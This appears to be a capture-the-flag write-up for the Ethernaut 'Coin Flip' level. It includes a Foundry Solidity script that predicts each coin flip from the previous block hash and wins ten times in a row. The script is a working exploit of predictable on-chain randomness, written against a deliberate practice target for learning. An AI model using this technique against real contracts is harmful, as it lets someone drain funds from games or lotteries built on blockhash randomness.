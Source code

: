 ```yaml
            code: false
            color: "default"
          plain_text: "Coin Flip"
          href: null
  url: "https://www.notion.so/Coin-Flip-c27578d40d2f427d968d5623d7000dab"
  public_url: null
UPDATE_TIME: "2024-02-23T20:55:13.050Z"
---
```


<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">

This is a coin
flipping game where you need to build up your winning streak by guessing
the outcome of a coin flip. To complete this level you'll need to use
your psychic abilities to guess the correct outcome 10 times in a row.

Things that might help

- See the ["?"](https://ethernaut.openzeppelin.com/help) page above in the top right corner menu, section "Beyond the console"

Here is the first version of my solution:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";


interface CoinFlip {
  function consecutiveWins() external returns (uint256);
  function flip(bool _guess) external returns (bool);
}

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_03");
        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

        vm.startBroadcast(deployerPrivateKey);
        CoinFlip instance = CoinFlip(addr);

        for (uint i = 0; i < 10; i++) {
          uint256 blockValue = uint256(blockhash(block.number - 1));
          uint coinFlip = blockValue / FACTOR;
          bool side = coinFlip == 1 ? true : false;
          instance.flip(side);
          console.logUint(instance.consecutiveWins());
       }


        vm.stopBroadcast();
    }
}
```
